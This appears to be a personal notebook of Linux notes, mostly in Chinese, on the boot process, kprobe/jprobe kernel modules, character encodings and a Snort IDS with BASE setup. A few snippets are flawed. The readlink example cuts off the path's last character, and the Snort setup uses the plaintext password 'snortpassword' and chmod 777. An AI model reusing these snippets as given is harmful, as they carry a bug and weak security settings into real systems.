2. BIOS：计算机加电自检完成后第一个读取的地方就是就是BIOS（Basic Input Output System，基础输入输出系统）
   ，BIOS里面记录了主机板的芯片集与相关设置，如CPU与接口设备的通信频率、启动设备的搜索顺序、硬盘的大小与
   类型、系统时间、外部总线、各种接口设备的I/O地址、已经与CPU通信的IRQ中断信息，所以，启动如果要顺利启动，
   首先要读取BIOS设置。 

3. 按照BIOS所设定的系统启动流程，如果检测通过，则根据引导次序(Boot Sequence)开始在第一台设备上支持启动
   程序，我们的启动设备主要包括硬盘、USB、SD等，我们一般用的是硬盘，然后进行读取第一个设备就是硬盘，第一个
   要读去的就是该硬盘的主引导记录MBR（Master Boot Record），然后系统可以根据启动区安装的
   引导加载程序（Boot Loader）开始执行核心识别的工作。【在此插一句：MBR程序只是找到只是硬盘分区内最前面
   的446个字节的Boot Loader】然后查找相关配置和定义。 

4. Boot Loader 加载Grub程序
   在这个过程中主要靠Grub的引导开始的，Grub分为连个阶段：
   stage1：主要是Boot loader
   stage 1.5:过渡
   stage2:主要是/boot/grub 

#+begin_example
linux-19:/boot/grub # cat menu.lst
default 0
timeout 8

gfxmenu (hd0,1)/boot/message

title SUSE Linux Enterprise Server 11 SP2 - 3.0.80-0.7
    root (hd0,1)
    kernel /boot/vmlinuz-3.0.80-0.7-default root=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part2 resume=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part1 splash=silent crashkernel=256M-:128M showopts vga=0x31a
    initrd /boot/initrd-3.0.80-0.7-default

title Failsafe -- SUSE Linux Enterprise Server 11 SP2 - 3.0.80-0.7
    root (hd0,1)
    kernel /boot/vmlinuz-3.0.80-0.7-default root=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part2 showopts ide=nodma apm=off noresume edd=off powersaved=off nohz=off highres=off processor.max_cstate=1 nomodeset x11failsafe vga=0x31a
    initrd /boot/initrd-3.0.80-0.7-default
#+end_example
     
5. Kernel
   根据Grub内的定义，grub读取完毕后就把下面的工作交个内核了。kernel主要是完成系统硬件探测及硬件驱动的初始
   化，并且以读写的方式挂载根文件系统（根切换），那么这里就出现了一个“先有鸡还是先有蛋的文件了”，具体是什么
   那？
   要想访问真正的根文件系统（rootfs）的话，就必须加载根文件系统中的设备，这时根文件系统又没有挂载，
   要挂载根文件系统又得加载根文件系统中的驱动程序，哪怎么办呢？为了解决这个问题，这是就用到了initrd文件了。  
   在来说下kernel初始化所要工作的内容做下简单总结：  
   探测硬件->加载驱动（initrd)->挂载根文件系统->rootfs(/sbin/init) 

#+begin_example
inux-19:~/test # mkdir intrd
inux-19:~/test # mv /boot/initrd-3.0.80-0.7-default initrd/
linux-19:~/test # cd initrd/ 
linux-19:~/test/initrd # ls
initrd-3.0.80-0.7-default
linux-19:~/test/initrd # zcat initrd-3.0.80-0.7-default | cpio -id                       
33097 blocks
linux-19:~/test/initrd # ls
bin  boot  bootsplash  config  dev  etc  init  initrd-3.0.80-0.7-default  lib  lib64  mkinitrd.config  proc  root  run_all.sh  sbin  sys  tmp  usr  var
linux-19:~/test/initrd # 
#+end_example
发现解压的结果很想/目录
可以vi init
看一下init脚本都做了哪些操作。
看到init进程的主要工作：
挂载 ：将initrd中的/proc, /sys  /dev 挂载到当前的主分区中的相应目录  
创建目录：/dev/mapper  
通过mknod完成block or character special files的创建  
相关模块的挂载  
创建root设备  
挂载 /sysroot  
最后完成根切换 


6. 到此止内核空间的相关工作已经完成，内核空间的任务开始向用户空间转移，内核空间通过一个间接的initrd(微型
   linux)向用户空间的/sbin/init过度，所以grub开始引导内核转向initrd。
   initrd：一个虚拟的文件系统，里面有lib、bin、sbin、usr、proc、sys、var、dev、boot等一些目录，
   其实你会发现里面的目录有点像真的/对吧，所以我们称之为虚拟的根文件系统，作用就是将kernel和真的根文件系统
   建立关联关系，让kernel去initrd中加载根文件系统所需要的驱动程序，并以读写的方式挂载根文件系统，并让执行
   用户当中第一个进程init。 


7. init执行完毕以后会启动系统内的/etc/inittab文件，来完成系统系统的初始化工作。
   下面我们来介绍一下inittab这个配置文件内的详细内容

各个级别的定义：
默认运行级别 
0：halt                      //关机  
1: single user mode    //单用户维护模式)  
2：multi user mode, without NFS  //不支持NFS功能  
3: multi user mode, text mode     //字符界面  
4：reserved   //系统保留  
5: multi user mode, graphic mode   //图形化界面  
6: reboot   //重启 

/etc/inittab格式及语法(:) 
[选项]:[runlevel]:[行为]:[命令]
行为：  
                   initdefault：代表默认运行级别  
                   sysinit：代表系统初始化操作选项  
                   ctrlaltdel：代表重启的相关设置  
                   wait：代表上一个命令执行结束后方可执行下面的操作  
                   respawn：代表后面字段可以无限制再生(reboot)
命令选项  
               一些命令，不过通常都是脚本 

* linux启动过程中读取/etc/fstab
  读取/etc/fstab，mount文件系统的操作
  是由mount命令自己完成的。
  mount -a 选项
* 获取当前程序的绝对路径
  读取/proc/self/exe符号链接
  char buf[PATH_MAX];
  int n = readlink("/proc/self/exe", buf, PATH_MAX);
  if( n > 0 && n < PATH_MAX) {
  buf[n-1] = '\0';
* linux log
  /var/log/boot.msg
  /var/log/boot.omsg
  All the boot information and output of a Suse 9 system can be retrieved in /var/log/boot.msg. 
  Here you find the kernel messages, stored by the ksyslog daemon, the init output and the messages of the various services started at the chosen runlevel.
  This file is rewritten at every reboot, a copy of the output of the previous boot is kept in /var/log/boot.omsg
* configure
  configure --with-* 传参数
  configure内容:
  perl subst xxx.cfg
  perl subst Makefile
* 网桥转发的问题
  tony 在linux A 上建立的网桥，
  然后建立路由，再另一个机器以A为网关，测试路由。
  结果总是不通，于是他就在A上运行tcpdump，
  发现运行tcpdump时，路由居然就通了。
  后来我提意，将网卡设置成混杂模式，然后在测试，路由就是通的。
  最后发现网桥的接口就是需要在混杂模式。可能之前有人改过配置。
* valgrind
#+begin_src c
#include <stdlib.h>

int main() 
{
    int *p = (int *) malloc(10*sizeof(int));
    p[10] = 1;
    return 0;
}
#+end_src
运行valgrind ./test
结果就发现了：p[10] = 1 处越界访问。

** 使用valgrind调试fastcgi程序

   使用spawn-fcgi调起用valgrind起的fastcgi程序即可.
   spawn-fcgi -n -a 127.0.0.1 -p 9000 -- /usr/bin/valgrind --leak-check=full --log-file=/tmp/valgrind.log /path/to/prog
   调试的话,直接gdb attach上进程ID即可.

* 按inode号删除文件
Linux 下有些文件直接使用 rm 无法删除, 比如该文件的文件名含有终端不能正确显示的字符.

[root@dev]# ls -i
26247183 wite.html
26247184 abc.html
26247189 test?.txt

可以通过文件 inode 删除
# find . -inum 26247189  -delete
* kprobe使用
Kprobe is a very simple method to probe the running kernel. At a fundamental level, it requires the address of a kernel function that needs to be debugged. Then, you create pre- and post-handlers that will print a debugging message when the target kernel function is called. (Actually, a handler performs any action specified in its code; in this case, it happens to be printing.) Thus, every time that function is called, you can track it.
An example

To keep things simple, I have created a small and easy-to-understand example. The target kernel function is ip_rcv(). The Kprobe example kernel module is as follows:
#+begin_src c	
#include<linux/module.h>
#include<linux/version.h>
#include<linux/kernel.h>
#include<linux/init.h>
#include<linux/kprobes.h>
 
static unsigned int counter = 0;
int Pre_Handler(struct kprobe *p, struct pt_regs *regs){
    printk("Pre_Handler: counter=%u\n",counter++);
    return 0;
}
 
void Post_Handler(struct kprobe *p, struct pt_regs *regs, unsigned long flags){
    printk("Post_Handler: counter=%u\n",counter++);
}
 
static struct kprobe kp;
 
int myinit(void)
{
    printk("module inserted\n ");
    kp.pre_handler = Pre_Handler;
    kp.post_handler = Post_Handler;
    kp.addr = (kprobe_opcode_t *)0xc071c9a9;
    register_kprobe(&kp);
    return 0;
}
 
void myexit(void)
{
    unregister_kprobe(&kp);
    printk("module removed\n ");
}
 
module_init(myinit);
module_exit(myexit);
MODULE_AUTHOR("Manoj");
MODULE_DESCRIPTION("KPROBE MODULE");
MODULE_LICENSE("GPL");
#+end_src

The makefile required to build the kernel module object file that you need to insert into the kernel is as follows:
#+begin_src c
obj-m +=mod1.o mod2.o
KDIR= /lib/modules/$(shell uname -r)/build
all:
    $(MAKE) -C $(KDIR) SUBDIRS=$(PWD) modules
clean:
       rm -rf *.o *.ko *.mod.* .c* .t*
#+end_src
Code walk-through

Here’s an explanation for the less obvious sections of the code.
struct kprobe kp;

To make use of Kprobe functionality, you must declare a variable of the structure struct kprobe, which is declared in include/linux/kprobes.h. Here’s a little extract:
#+begin_src c
struct kprobe {
    .
    .
    kprobe_opcode_t *addr;
    kprobe_pre_handler_t pre_handler;
    kprobe_post_handler_t post_handler;
}
#+end_src
The three members listed above are of interest to us. You need to assign the kernel address of the target function to the addr member; you can retrieve the address from the /proc/kallsyms file, as follows:
#+begin_src c
# cat /proc/kallsyms | grep ip_rcv
c071c3e0 t ip_rcv_finish
c071c9a9 T ip_rcv
#+end_src
Once you’ve found the address, use it in the myinit() function, as follows:
kp.addr = (kprobe_opcode_t *)0xc071c9a9;

Kprobe executes handler functions before and after the target kernel function is called, and we created the Pre_Handler() and Post_Handler() functions for this purpose. Assign these to their respective pointer members in the Kprobe struct — pre_handler and post_handler — in myinit(), as you can see. Finally, register your Kprobe with the kernel, with register_kprobe(&kp);.

Then compile the module by running make:
#+begin_example
# make
make -C /lib/modules/2.6.34/build SUBDIRS=/root/kprobe modules
make[1]: Entering directory '/root/linux-2.6.34'
  CC [M]  /root/kprobe/mod1.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/kprobe/mod1.mod.o
  LD [M]  /root/kprobe/mod1.ko
make[1]: Leaving directory '/root/linux-2.6.34'
#+end_example

When done, you are ready to test your example module by inserting it into the kernel:
# insmod mod1.ko

Confirm that the module is successfully inserted:
# lsmod | head -n 5
Module                  Size  Used by
mod1                     904  0
fuse                   46627  2
sunrpc                158985  1
xt_physdev              1355  1

Now, since you have used ip_rcv() as your target function, you need to invoke it with a simple ping:
# ping localhost

Run dmesg and find your module’s messages:
module inserted
Pre_Handler: counter=0
Post_Handler: counter=1
Pre_Handler: counter=2
Post_Handler: counter=3

As you see, you can probe a kernel address and do instrumentation without recompiling the kernel, as was required by the simple printk. When you are done with your debugging, don’t forget to remove the module:
# rmmod mod1

In the exit function, myexit(), Kprobe is unregistered by calling unregister_kprobe(&kp);.

However, Kprobe has limits to what you can do with it. In the above example, you have just printed some messages in the handlers; you cannot access the function’s arguments with Kprobe. Let’s move on to something better.
Probing with Jprobe

For those who like bonus features, Jprobe is another kind of probing technique, which can be used to access the target function’s arguments, and thus display what was passed to the function. The basics are the same as that of Kprobe, but this additional feature makes Jprobe an interesting tool.

To get the Jprobe structure details, look in the file include/linux/kprobes.h:
struct jprobe {
        struct kprobe kp;
        void *entry;    /* probe handling code to jump to */
};

As you see, it contains a struct kprobe member, plus a pointer to store the address of a handler function to jump to.
A Jprobe example
#+begin_src c	
#include<linux/module.h>
#include<linux/version.h>
#include<linux/kernel.h>
#include<linux/init.h>
#include<linux/kprobes.h>
#include<net/ip.h>
#include <linux/kallsyms.h>
 
int my_handler (struct sk_buff *skb, struct net_device *dev, struct packet_type *pt, struct net_device *orig_dev){
 
    struct iphdr *my_iph;
    u32 S_ip,D_ip;
    my_iph = ip_hdr(skb);
    S_ip = my_iph->saddr;
    D_ip = my_iph->daddr;
    printk("Source IP: \n"NIPQUAD_FMT,NIPQUAD(S_ip));
     jprobe_return();
}
 
static struct jprobe my_probe;
 
int myinit(void)
{
    int ret;
    //my_probe.kp.addr = (kprobe_opcode_t *)0xc071c9a9;
    my_probe.kp.addr = (kprobe_opcode_t *) kallsyms_lookup_name("ip_rcv");
    if (!my_probe.kp.addr) {
       printk("Couldn't find %s to plant jprobe\n", "ip_rcv");
       return -1;
    }
    my_probe.entry = (kprobe_opcode_t *)my_handler;
    if ((ret = register_jprobe(&my_probe)) < 0) {
       printk("register_jprobe failed, returned %d\n", ret);
       return -1;
    }
    return 0;
}
 
void myexit(void)
{
    unregister_jprobe(&my_probe);
    printk("module removed\n ");
}
 
module_init(myinit);
module_exit(myexit);
 
/*Kernel module Comments*/
MODULE_AUTHOR("Manoj");
MODULE_DESCRIPTION("SIMPLE MODULE");
MODULE_LICENSE("GPL");
//MODULE_LICENSE("GPL v2");
#+end_src
Code walk-through

The example is simple to understand, but let me explain things a bit. Here, in the myinit() function, you assigned the target function address to the addr member of the Kprobe member struct kp, just like for the earlier module. The main difference is that you’ve now assigned a single handler function, my_handler, to the entry member:
my_probe.entry = (kprobe_opcode_t *)my_handler;

You’ve probably already noted that the signature of the single handler function here is quite different from the Kprobe handlers. The reason is, the handler must have the same arguments as that of the kernel function you’re probing, which is once again ip_rcv():
int my_handler (struct sk_buff *skb, struct net_device *dev, struct packet_type *pt, struct net_device *orig_dev);
extern int   ip_rcv(struct sk_buff *skb, struct net_device *dev,  struct packet_type *pt, struct net_device *orig_dev);

Jprobe lets us access the arguments of a function by calling your handler with the same arguments passed to the target function. This means that when ip_rcv is called, its arguments can be accessed from your probe handler as it is able to refer to the function’s address space plus the components within that function stack.

The line my_iph = ip_hdr(skb); will extract the IP header from sk_buff. Then extract the source and destination IP addresses in dot notation form, using the NIPQUAD and NIPQUAD_FMT macros declared in include/linux/kernel.h, and print the addresses.

Now, compile your module, insert it, and check that the module has been inserted successfully, just as before. Again, to invoke ip_rcv(), run a ping and then run dmesg to check the output:
# ping www.google.com
# dmesg
Source IP: 192.168.1.1
Destination IP: 192.168.1.3
Source IP: 209.85.231.104
Destination IP: 192.168.1.3

The output shows that Jprobe lets you get the function’s argument values, which can be very handy when debugging data-dependent bugs.

修改一下
#+begin_src c	
#include<linux/module.h>
#include<linux/version.h>
#include<linux/kernel.h>
#include<linux/init.h>
#include<linux/kprobes.h>
static const char *probed_func = "ip_rcv"; 
static unsigned int counter = 0;
int Pre_Handler(struct kprobe *p, struct pt_regs *regs){
    printk("Pre_Handler: counter=%u\n",counter++);
    return 0;
}
 
void Post_Handler(struct kprobe *p, struct pt_regs *regs, unsigned long flags){
    printk("Post_Handler: counter=%u\n",counter++);
}
 
static struct kprobe kp;
 
int myinit(void)
{
    printk("module inserted\n ");
    kp.pre_handler = Pre_Handler;
    kp.post_handler = Post_Handler;
    /* 直接使用函数名 */
    kp.symbol_name = (char *)probed_func;
    register_kprobe(&kp);
    return 0;
}
 
void myexit(void)
{
    unregister_kprobe(&kp);
    printk("module removed\n ");
}
 
module_init(myinit);
module_exit(myexit);
MODULE_AUTHOR("Manoj");
MODULE_DESCRIPTION("KPROBE MODULE");
MODULE_LICENSE("GPL");
#+end_src

更详细的内容可以阅读linux-2.6.21/Documentation/kprobes.txt。

* gcc -finstrument-functions特性的应用
* 字符编码总结
1. ASCII码

我们知道，在计算机内部，所有的信息最终都表示为一个二进制的字符串。每一个二进制位（bit）有0和1两种状态，因此八个二进制位就可以组合出256种状态，这被称为一个字节（byte）。也就是说，一个字节一共可以用来表示256种不同的状态，每一个状态对应一个符号，就是256个符号，从0000000到11111111。

上个世纪60年代，美国制定了一套字符编码，对英语字符与二进制位之间的关系，做了统一规定。这被称为ASCII码，一直沿用至今。

ASCII码一共规定了128个字符的编码，比如空格"SPACE"是32（二进制00100000），大写的字母A是65（二进制01000001）。这128个符号（包括32个不能打印出来的控制符号），只占用了一个字节的后面7位，最前面的1位统一规定为0。

2、非ASCII编码

英语用128个符号编码就够了，但是用来表示其他语言，128个符号是不够的。比如，在法语中，字母上方有注音符号，它就无法用ASCII码表示。于是，一些欧洲国家就决定，利用字节中闲置的最高位编入新的符号。比如，法语中的é的编码为130（二进制10000010）。这样一来，这些欧洲国家使用的编码体系，可以表示最多256个符号。

但是，这里又出现了新的问题。不同的国家有不同的字母，因此，哪怕它们都使用256个符号的编码方式，代表的字母却不一样。比如，130在法语编码中代表了é，在希伯来语编码中却代表了字母Gimel (ג)，在俄语编码中又会代表另一个符号。但是不管怎样，所有这些编码方式中，0--127表示的符号是一样的，不一样的只是128--255的这一段。

至于亚洲国家的文字，使用的符号就更多了，汉字就多达10万左右。一个字节只能表示256种符号，肯定是不够的，就必须使用多个字节表达一个符号。比如，简体中文常见的编码方式是GB2312，使用两个字节表示一个汉字，所以理论上最多可以表示256x256=65536个符号。

中文编码的问题需要专文讨论，这篇笔记不涉及。这里只指出，虽然都是用多个字节表示一个符号，但是GB类的汉字编码与后文的Unicode和UTF-8是毫无关系的。

3.Unicode

正如上一节所说，世界上存在着多种编码方式，同一个二进制数字可以被解释成不同的符号。因此，要想打开一个文本文件，就必须知道它的编码方式，否则用错误的编码方式解读，就会出现乱码。为什么电子邮件常常出现乱码？就是因为发信人和收信人使用的编码方式不一样。

可以想象，如果有一种编码，将世界上所有的符号都纳入其中。每一个符号都给予一个独一无二的编码，那么乱码问题就会消失。这就是Unicode，就像它的名字都表示的，这是一种所有符号的编码。

Unicode当然是一个很大的集合，现在的规模可以容纳100多万个符号。每个符号的编码都不一样，比如，U+0639表示阿拉伯字母Ain，U+0041表示英语的大写字母A，U+4E25表示汉字"严"。具体的符号对应表，可以查询unicode.org，或者专门的汉字对应表。

4. Unicode的问题

需要注意的是，Unicode只是一个符号集，它只规定了符号的二进制代码，却没有规定这个二进制代码应该如何存储。

比如，汉字"严"的unicode是十六进制数4E25，转换成二进制数足足有15位（100111000100101），也就是说这个符号的表示至少需要2个字节。表示其他更大的符号，可能需要3个字节或者4个字节，甚至更多。

这里就有两个严重的问题，第一个问题是，如何才能区别Unicode和ASCII？计算机怎么知道三个字节表示一个符号，而不是分别表示三个符号呢？第二个问题是，我们已经知道，英文字母只用一个字节表示就够了，如果Unicode统一规定，每个符号用三个或四个字节表示，那么每个英文字母前都必然有二到三个字节是0，这对于存储来说是极大的浪费，文本文件的大小会因此大出二三倍，这是无法接受的。

它们造成的结果是：1）出现了Unicode的多种存储方式，也就是说有许多种不同的二进制格式，可以用来表示Unicode。2）Unicode在很长一段时间内无法推广，直到互联网的出现。

5.UTF-8

互联网的普及，强烈要求出现一种统一的编码方式。UTF-8就是在互联网上使用最广的一种Unicode的实现方式。其他实现方式还包括UTF-16（字符用两个字节或四个字节表示）和UTF-32（字符用四个字节表示），不过在互联网上基本不用。重复一遍，这里的关系是，UTF-8是Unicode的实现方式之一。

UTF-8最大的一个特点，就是它是一种变长的编码方式。它可以使用1~4个字节表示一个符号，根据不同的符号而变化字节长度。

UTF-8的编码规则很简单，只有二条：

1）对于单字节的符号，字节的第一位设为0，后面7位为这个符号的unicode码。因此对于英语字母，UTF-8编码和ASCII码是相同的。

2）对于n字节的符号（n>1），第一个字节的前n位都设为1，第n+1位设为0，后面字节的前两位一律设为10。剩下的没有提及的二进制位，全部为这个符号的unicode码。

下表总结了编码规则，字母x表示可用编码的位。

    Unicode符号范围 | UTF-8编码方式
    (十六进制) | （二进制）
    --------------------+---------------------------------------------
    0000 0000-0000 007F | 0xxxxxxx
    0000 0080-0000 07FF | 110xxxxx 10xxxxxx
    0000 0800-0000 FFFF | 1110xxxx 10xxxxxx 10xxxxxx
    0001 0000-0010 FFFF | 11110xxx 10xxxxxx 10xxxxxx 10xxxxxx

跟据上表，解读UTF-8编码非常简单。如果一个字节的第一位是0，则这个字节单独就是一个字符；如果第一位是1，则连续有多少个1，就表示当前字符占用多少个字节。

下面，还是以汉字"严"为例，演示如何实现UTF-8编码。

已知"严"的unicode是4E25（100111000100101），根据上表，可以发现4E25处在第三行的范围内（0000 0800-0000 FFFF），因此"严"的UTF-8编码需要三个字节，即格式是"1110xxxx 10xxxxxx 10xxxxxx"。然后，从"严"的最后一个二进制位开始，依次从后向前填入格式中的x，多出的位补0。这样就得到了，"严"的UTF-8编码是"11100100 10111000 10100101"，转换成十六进制就是E4B8A5。

6. Unicode与UTF-8之间的转换

通过上一节的例子，可以看到"严"的Unicode码是4E25，UTF-8编码是E4B8A5，两者是不一样的。它们之间的转换可以通过程序实现。

在Windows平台下，有一个最简单的转化方法，就是使用内置的记事本小程序Notepad.exe。打开文件后，点击"文件"菜单中的"另存为"命令，会跳出一个对话框，在最底部有一个"编码"的下拉条。

bg2007102801.jpg

里面有四个选项：ANSI，Unicode，Unicode big endian 和 UTF-8。

1）ANSI是默认的编码方式。对于英文文件是ASCII编码，对于简体中文文件是GB2312编码（只针对Windows简体中文版，如果是繁体中文版会采用Big5码）。

2）Unicode编码指的是UCS-2编码方式，即直接用两个字节存入字符的Unicode码。这个选项用的little endian格式。

3）Unicode big endian编码与上一个选项相对应。我在下一节会解释little endian和big endian的涵义。

4）UTF-8编码，也就是上一节谈到的编码方法。

选择完"编码方式"后，点击"保存"按钮，文件的编码方式就立刻转换好了。

7. Little endian和Big endian

上一节已经提到，Unicode码可以采用UCS-2格式直接存储。以汉字"严"为例，Unicode码是4E25，需要用两个字节存储，一个字节是4E，另一个字节是25。存储的时候，4E在前，25在后，就是Big endian方式；25在前，4E在后，就是Little endian方式。

这两个古怪的名称来自英国作家斯威夫特的《格列佛游记》。在该书中，小人国里爆发了内战，战争起因是人们争论，吃鸡蛋时究竟是从大头(Big-Endian)敲开还是从小头(Little-Endian)敲开。为了这件事情，前后爆发了六次战争，一个皇帝送了命，另一个皇帝丢了王位。

因此，第一个字节在前，就是"大头方式"（Big endian），第二个字节在前就是"小头方式"（Little endian）。

那么很自然的，就会出现一个问题：计算机怎么知道某一个文件到底采用哪一种方式编码？

Unicode规范中定义，每一个文件的最前面分别加入一个表示编码顺序的字符，这个字符的名字叫做"零宽度非换行空格"（ZERO WIDTH NO-BREAK SPACE），用FEFF表示。这正好是两个字节，而且FF比FE大1。

如果一个文本文件的头两个字节是FE FF，就表示该文件采用大头方式；如果头两个字节是FF FE，就表示该文件采用小头方式。

8. 实例

下面，举一个实例。

打开"记事本"程序Notepad.exe，新建一个文本文件，内容就是一个"严"字，依次采用ANSI，Unicode，Unicode big endian 和 UTF-8编码方式保存。

然后，用文本编辑软件UltraEdit中的"十六进制功能"，观察该文件的内部编码方式。

1）ANSI：文件的编码就是两个字节"D1 CF"，这正是"严"的GB2312编码，这也暗示GB2312是采用大头方式存储的。

2）Unicode：编码是四个字节"FF FE 25 4E"，其中"FF FE"表明是小头方式存储，真正的编码是4E25。

3）Unicode big endian：编码是四个字节"FE FF 4E 25"，其中"FE FF"表明是大头方式存储。

4）UTF-8：编码是六个字节"EF BB BF E4 B8 A5"，前三个字节"EF BB BF"表示这是UTF-8编码，后三个"E4B8A5"就是"严"的具体编码，它的存储顺序与编码顺序是一致的。
* 安装过程ldconfig
ld.so.conf中
动态库的查找顺序
按照目录顺序查找

我安装daq时，./configure
报错：
  ERROR!  Libpcap library version >= 1.0.0  not found.
    Get it from http://www.tcpdump.org

于是下载一个libpcap的源码包，编译./configure --prefix=/usr/lib/
结果还是不对。

ldconfig -p |grep libpcap
发现实际其作用的是 libpcap.0.9.8

发现/etc/ld.so.conf部分内容：
/usr/lib64
/usr/lib

我将/usr/lib64下的旧版本的
* snort 安装过程
* install snort
#+begin_example
# cd /tmp ; wget http://www.snort.org/downloads/1850 -O daq-1.1.1.tar.gz # tar -xzvf daq-1.1.1.tar.gz 
# cd daq-1.1.1/ 
# ./configure 
# make && make install 
# ldconfig -v 
#+end_example

- Creating snort user and tree directories:

12345678 # groupadd snort # useradd -g snort snort # mkdir /usr/local/snort # mkdir /etc/snort # mkdir /var/log/snort # mkdir /var/run/snort # chown snort:snort /var/log/snort # chown snort:snort /var/run/snort 

Installing Snort and configuring the ruleset

- Downloading and installing snort:

1234567891011 # cd /tmp ; wget http://www.snort.org/downloads/1862 -O snort-2.9.3.1.tar.gz # tar -xzvf snort-2.9.3.1.tar.gz # cd snort-2.9.3.1/ # ./configure --prefix /usr/local/snort --enable-sourcefire --enable-ipv6 # make && make install # ln -s /usr/local/snort/bin/snort /usr/bin/snort # cp /tmp/snort-2.9.3.1/etc/snort.conf /etc/snort/ # cp /tmp/snort-2.9.3.1/etc/unicode.map /etc/snort/ # cp /tmp/snort-2.9.3.1/etc/classification.config /etc/snort/ # cp -r /usr/local/snort/lib/snort_dynamicpreprocessor/ /usr/local/lib/ # cp -r /usr/local/snort/lib/snort_dynamicengine /usr/local/lib/ 

- Downloading open source ruleset from emerging:

#+begin_example
# cd /etc/snort ; wget http://rules.emergingthreats.net/open/snort-2.9.0/emerging.rules.tar.gz && wget http://rules.emergingthreats.net/open/snort-2.9.0/reference.config 
# tar -xzvf emerging.rules.tar.gz 
# touch /etc/snort/rules/white_list.rules /etc/snort/rules/black_list.rules 
# chown -R snort:snort /etc/snort/ 
#+end_example

- Edit snort configuration:

#+begin_example
# vi /etc/snort/snort.conf 

ipvar HOME_NET 192.168.1.0/24
var RULE_PATH /etc/snort/rules
var SO_RULE_PATH /etc/snort/so_rules
var PREPROC_RULE_PATH /etc/snort/preproc_rules
var WHITE_LIST_PATH /etc/snort/rules
var BLACK_LIST_PATH /etc/snort/rules
include $RULE_PATH/emerging.conf 
#+end_example

Configuring the init script for Snort

- Create sysconfig snort configuration:

#+begin_example
# vi /etc/sysconfig/snort 

#### General Configuration
INTERFACE=eth0
CONF=/etc/snort/snort.conf
USER=snort
GROUP=snort
PASS_FIRST=0
#### Logging & Alerting
LOGDIR=/var/log/snort
ALERTMODE=fast 
DUMP_APP=1 
BINARY_LOG=1 
NO_PACKET_LOG=0 
PRINT_INTERFACE=0 
#+end_example

- Adding the init script:
#+begin_example
# vi /etc/init.d/snortd 
#+end_example

- Start snort at system boot time:

#+begin_example
# chmod +x /etc/init.d/snortd 
# chkconfig --levels 235 snortd on 
#+end_example
- Starting snort:

#+begin_example
# /etc/init.d/snortd start 
#+end_example
Testing the basic functionality of port scanning detection with nmap

#+begin_example
# tail -f /var/log/snort/alert 
#+end_example
* install base and barnyard2
Install BASE dependencies
#+begin_example
# yum install -y mysql-server mysql-devel php-mysql php-adodb php-pear php-gd httpd 
# pear channel-update pear.php.net 
# pear install Numbers_Roman 
# pear install channel://pear.php.net/Image_Canvas-0.3.5 # 
# pear install channel://pear.php.net/Image_Graph-0.8.0 
#+end_example

Preparing MySQL environment
- Initializing mysql and configuring to start the daemon at boot time:
#+begin_example
# service mysql start 
# chkconfig --levels 235 mysql on 
#+end_example

- Preparing the new database for snort:
#+begin_example
# mysql -u root -p 

mysql> create database snort;
mysql> grant select,insert,update,delete,create on snort.* to snort@localhost; 
mysql> set password for snort@localhost=PASSWORD('snortpassword'); 
#+end_example

Setup snort to log out in unified2 format
#+begin_example
# vi /etc/snort/snort.conf 

output unified2: filename snort.u2, limit 128 
#+end_example

Installing barnyard2

#+begin_example
# cd /tmp ; wget http://www.securixlive.com/download/barnyard2/barnyard2-1.9.tar.gz 
# tar -xzvf barnyard2-1.9.tar.gz 
# cd barnyard2-1.9 
# ./configure --with-mysql 
# make && make install 
# cp etc/barnyard2.conf /etc/snort/ 
# mysql -u snort -psnortpassword snort < schemas/create_mysql 
# touch /etc/snort/barnyard2.waldo 
# chmod 777 /etc/snort/barnyard2.waldo 
# chown snort:snort /etc/snort/barnyard2.waldo 
#+end_example

- Edit barnyard2 configuration:
#+begin_example
# vi /etc/snort/barnyard2.conf 

config reference_file: /etc/snort/reference.config
config classification_file: /etc/snort/classification.config
config gen_file: /etc/snort/rules/gen-msg.map 
config sid_file: /etc/snort/rules/sid-msg.map 
input unified2 
config hostname: localhost 
config interface: eth0 
config alert_with_interface_name 
output database: log, mysql, user=snort password=snortpassword dbname=snort host=localhost 
#+end_example

Adapting our init script to work with barnyard2
#+begin_example
 # vi /etc/init.d/snortd 

 # /etc/init.d/snortd restart 
#+end_example
Installing BASE
#+begin_example
# cd /tmp ; wget http://sourceforge.net/projects/secureideas/files/latest/download 
# tar -xzvf base-1.4.5.tar.gz 
# cp -r base-1.4.5/ /var/www/base 
# cd /var/www/base/ 
# cp base_conf.php.dist base_conf.php 
#+end_example
- Edit BASE scripts configuration:
#+begin_example
# vi base_conf.php 

$BASE_urlpath = '/base'; 
$DBlib_path = '/usr/share/php/adodb'; 
$alert_dbname = 'snort'; 
$alert_host = 'localhost'; 
$alert_port = '3306'; 
$alert_user = 'snort'; 
$alert_password = 'snortpassword'; 
#+end_example
Configuring Apache

#+begin_example
# vi /etc/httpd/conf.d/base.conf 

Alias /base /var/www/base/
<directory "/var/www/base/"> 
AllowOverride None 
Order allow,deny 
Allow from all 
AuthName "Snort IDS"
AuthType Basic 
AuthUserFile /etc/snort/base.passwd
Require valid-user 
</directory> 
#+end_example

- Generating password file for web access for BASE:
#+begin_example
 # htpasswd -c /etc/snort/base.passwd snortadmin 
#+end_example
- Restart apache:
#+begin_example
 # service httpd restart 
#+end_example

Accessing to the BASE web environment

http://IP-WEB-SERVER/base/base_db_setup.php

and click create BASE AV

* 修改屏幕背景色

To set the "Paper Mode" use:
xcalib -red 1.7 1 64 -green 1.7 1 57 -blue 1.7 1 28 -alter
To (re)set back to "Screen Mode" use:
xcalib -clear

反转颜色
xcalib -invert -alter
* suse linux server黑屏
在黑屏时。按Ctrl+Alt+F2进入另一个shell
* 内核参数
1.内核进程通信参数

1）运行 ipcs -l 命令以列示当前的内核参数设置。
2）分析命令输出， 通过将当前值与内核参数需求 (Linux) 中对版本 9.5 修订包 6 或更高版本修订包的增强最低设置进行比较，从而确定您是否必须更改内核设置。 下列文本是 ipcs 命令输出的示例，注释添加在 // 后面以显示参数名称：

      # ipcs -l

      ------ Shared Memory Limits --------

      max number of segments = 4096               // SHMMNI 
      max seg size (kbytes) = 32768               // SHMMAX
      max total shared memory (kbytes) = 8388608  // SHMALL
      min seg size (bytes) = 1

 

      ------ Semaphore Limits --------
      max number of arrays = 1024                 // SEMMNI
      max semaphores per array = 250              // SEMMSL
      max semaphores system wide = 256000         // SEMMNS
      max ops per semop call = 32                 // SEMOPM
      semaphore max value = 32767

 

      ------ Messages: Limits --------
      max queues system wide = 1024               // MSGMNI
